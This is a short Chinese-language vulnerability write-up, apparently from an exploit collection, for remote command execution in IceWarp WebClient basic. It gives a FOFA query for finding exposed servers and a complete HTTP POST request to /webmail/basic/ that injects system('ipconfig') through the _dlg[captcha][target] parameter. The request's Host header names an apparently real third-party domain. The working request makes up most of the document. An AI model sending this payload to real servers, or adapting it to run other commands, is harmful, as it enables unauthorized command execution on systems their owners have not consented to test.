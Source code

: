 # IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

```
IceWarp WebClient
```

## FOFA

```
app="IceWarp-公司产品"
```

## 漏洞复现

登录页面如下

![](./images/202202101850566.png)



漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![](./images/202202101851258.png)